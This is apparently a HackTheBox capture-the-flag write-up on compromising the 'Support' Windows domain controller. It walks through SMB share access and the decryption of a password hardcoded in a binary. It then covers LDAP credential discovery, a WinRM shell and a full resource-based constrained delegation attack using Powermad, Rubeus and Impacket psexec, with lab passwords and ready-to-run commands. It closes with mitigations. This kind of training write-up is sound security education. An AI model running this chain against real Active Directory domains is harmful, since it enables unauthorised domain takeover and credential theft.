



# HTB Writeup - Support

## 1. Overview

This report documents the exploitation of the machine "Support" on the HackTheBox platform.

The target is a Windows Domain Controller exposing services such as SMB, LDAP, and WinRM. The attack chain involved extracting credentials from an internal binary, performing LDAP enumeration, and abusing Active Directory misconfigurations to escalate privileges to SYSTEM.

---

## 2. Enumeration

### 2.1 Nmap Scan

An Nmap scan was performed to identify open ports and services.

Command:
```
ports=$(nmap -p- --min-rate=1000 -Pn -T4 <target_ip> | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

nmap -p$ports -Pn -A <target_ip>
```


The scan revealed multiple services commonly associated with an Active Directory Domain Controller:

- 53 (DNS): Indicates the system is acting as a domain name server within the network.
- 88 (Kerberos): Used for authentication in Active Directory environments.
- 389 / 3268 (LDAP): Directory services, used for querying domain objects such as users and groups
- 445 (SMB): File sharing service, often used for enumeration of shares and potential access to internal resources.
- 5985 (WinRM): Remote management service, commonly used for remote shell access if valid credentials are obtained.

Additional RPC-related ports (135, 593, 496xx range) further confirm that this is a Windows system operating within a domain environment.

From these results, it can be inferred that the target is likely a Domain Controller for the domain `support.htb` making Active Directory enumeration a primary attack vector.

This suggests that initial access may be achieved through:
- SMB share enumeration
- LDAP credential discovery
- Abuse of domain misconfigurations

---

### 2.2 SMB Enumeration

SMB shares were enumerated:

```
smbclient -L \\\\<target_ip>\\
```

A non-default share named `support-tools` was identified.

Accessing it anonymously:

```
smbclient \\\\<target_ip>\\support-tools
```

The share contained several files. A custom binary stood out.

```
UserInfo.exe.zip
```

This file was downloaded for further analysis.

---

## 3. Initial Access

### 3.1 Binary Analysis

The binary was identified as a .NET executable after extraction.

```
public LdapQuery()
{
  string password = Protected.getPassword();
  entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
  entry.set_AuthenticationType((AuthenticationTypes)1);
  ds = new DirectorySearcher(entry);
}
```

The binary revealed the domain name `support.htb` under the function `LdapQuery`, which was required for proper LDAP communication and later authentication steps.

To facilitate proper hostname resolution within the domain, the discovered hostname was added to the `/etc/hosts` file.

The authentication process with the LDAP server is fetched from the `Protected.getPassword()` function.

An XOR encrypted password was located inside the authentication process' function.

To decrypt the password the Python script below was used.

```
import base64
from itertools import cycle

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"

key = b"armando"
xor_constant = 0xDF
cipher_bytes = base64.b64decode(enc_password)

plaintext = ''.join(
    chr(byte ^ k ^ xor_constant)
    for byte, k in zip(cipher_bytes, cycle(key))
)

print(f" Decrypted password: {plaintext}")
```
```
Decrypted password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```


---

### 3.2 LDAP Enumeration

LDAP was used for further enumeration due to the presence of Active Directory services (ports 389/3268) and the availability of valid credentials. Authenticated LDAP queries allow direct access to domain objects, including user attributes and group memberships, which can often reveal sensitive information not exposed through other services.

```
ldapsearch -h support.htb -D ldap@support.htb -w '<password>' -b "dc=support,dc=htb"
```

The output contained domain objects and user information.

The `support` user account contained an `info` attribute with the value:

```
Ironside47pleasure40Watchful
```

This value was identified as a password.

---

### 3.3 Foothold (WinRM)

The credentials were used to obtain a shell via WinRM:

```
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```

Access was successfully obtained as the `support` user.

At this stage, the `user.txt` flag was also located and retrieved from the compromised system.

Additionally, during post-exploitation enumeration, the Domain Controller hostname `dc.support.htb` was discovered. This information was critical for subsequent Active Directory attacks.

---

## 4. Privilege Escalation

### 4.1 Post-Exploitation Enumeration

After obtaining a shell as the `support` user, several standard local privilege escalation checks were performed, including:

- Reviewing user privileges with `whoami /priv`
- Enumerating group memberships with `whoami /groups`
- Inspecting running services and scheduled tasks
- Looking for writable paths, misconfigured services, or other common Windows privilege escalation vectors

These checks did not reveal a straightforward **local** privilege escalation path.

Because the target had already been identified as a Domain Controller, the focus shifted from local privilege escalation to **Active Directory permission abuse**. In domain environments, escalation is often achieved through delegated rights, ACL misconfigurations, or Kerberos abuse rather than local service misconfigurations.

The current user's group memberships were reviewed:

```powershell
whoami /groups
```

This showed that the `support` user was a member of the non-default group `Shared Support Accounts`, suggesting that the account might have delegated permissions within the domain.

### 4.2 BloodHound Analysis

To identify domain-level attack paths, Active Directory data was collected using SharpHound and analyzed in BloodHound.



After importing the data and marking the owned `support` user, BloodHound revealed that the `Shared Support Accounts` group had **GenericAll** privileges over the Domain Controller object.



This is a critical finding because `GenericAll` effectively grants full control over the target object, including the ability to modify attributes relevant to delegation.

BloodHound also indicates that this privilege can be abused using a **Resource-Based Constrained Delegation (RBCD)** attack.

### 4.3 RBCD Preconditions

Before exploitation, the required conditions for an RBCD attack were validated.

Firstly, the machine account quota was checked:

```powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

The returned value was `10`, meaning that authenticated domain users are allowed to create up to 10 machine accounts in the domain.

Next, the delegation-related attribute on the Domain Controller was inspected:

```powershell
. ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```

The attribute was empty, meaning delegation was not yet configured and could be set by an attacker with sufficient permissions.

At this stage, the required conditions were satisfied:

- The attacker had code execution as a valid domain user
- The user belonged to `Authenticated Users`
- `ms-DS-MachineAccountQuota` was greater than `0`
- The `Shared Support Accounts` group had `GenericAll` over the Domain Controller

### 4.4 Exploitation

#### 4.4.1

A new machine account was created in the domain using PowerMad:

```powershell
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123!@#' -AsPlainText -Force)
Get-ADComputer -Identity FAKE-COMP01
```

This creates an attacker-controlled computer object that can later be trusted for delegation.

#### 4.4.2 Configure Delegation on the Domain Controller

The Domain Controller object was modified so that the attacker-controlled machine account could act on its behalf:

```powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
```
This updates the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, allowing `FAKE-COMP01$` to impersonate users to services running on the Domain Controller.

The attribute can also be verified directly:

```powershell
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
```

#### 4.4.3 Generate the RC4 Hash for the Machine Account

Rubeus was used to derive the machine account's RC4-HMAC value from the chosen password:

```powershell
.\Rubeus.exe hash /password:Password123!@# /user:FAKE-COMP01$ /domain:support.htb
```

The `rc4_hmac` value from this is required for the S4U operation.

#### 4.4.4 Request a Kerberos Ticket via S4U

With delegation in place, Rubeus was used to request Kerberos service ticket on behalf of the Administrator account:

```powershell
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:<hash> /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

This abuses the S4U mechanism to impersonate `Administrator` to the `cifs` service on the Domain Controller.

#### 4.4.5 Convert and Use the Ticket on Linux 

The Kerberos ticket generated by Rubeus was transferred to the attacker machine, decoded, and converted into a format compatible with Impacket:

```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
```

#### 4.4.6 Pass-the-Ticket to Obtain SYSTEM

Finally, the ticket was used to authenticate to the Domain Controller with Impacket:

```bash
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
This resulted in a shell as:

```text
NT AUTHORITY\SYSTEM
```

The root flag was then recovered from the Administrator desktop.


---

## 5. Conclusion

This machine demonstrates how multiple weaknesses in an Active Directory environment can be chained together to achieve full domain compromise.

The attack began with anonymous access to an SMB share, which exposed an internal tool containing hardcoded credentials. These credentials enabled LDAP enumeration, leading to the discovery of additional user credentials stored insecurely in directory attributes. With valid domain access, misconfigured permissions (`GenericAll`) were identified and abused to perform a Resource-Based Constrained Delegation (RBCD) attack, ultimately resulting in SYSTEM-level access on the Domain Controller.

This highlights the importance of securing internal tools, properly managing directory data, and enforcing strict access controls within Active Directory environments.

### Mitigation & Prevention

To reduce the risk of similar attack chains, the following security measures should be implemented:

- Avoid embedding credentials in internal tools or binaries
- Do not store sensitive information in LDAP attributes such as `info` or `description`
- Restrict anonymous SMB access and audit exposed shares regularly
- Review Active Directory permissions such as `GenericAll`, `WriteDACL`, and delegation-related rights
- Reduce or disable `ms-DS-MachineAccountQuota` where operationally possible
- Monitor for abnormal Kerberos delegation activity and unusual ticket requests
- Log and review WinRM, LDAP, and lateral movement activity across the environment

### Key Takeaways

- Active Directory attacks often rely on chaining multiple smaller misconfigurations rather than a single vulnerability
- LDAP becomes a powerful enumeration vector when valid credentials are recovered
- `GenericAll` over critical AD objects can directly enable full domain compromise
- Resource-Based Constrained Delegation is a high-impact Kerberos abuse technique that defenders should understand and monitor

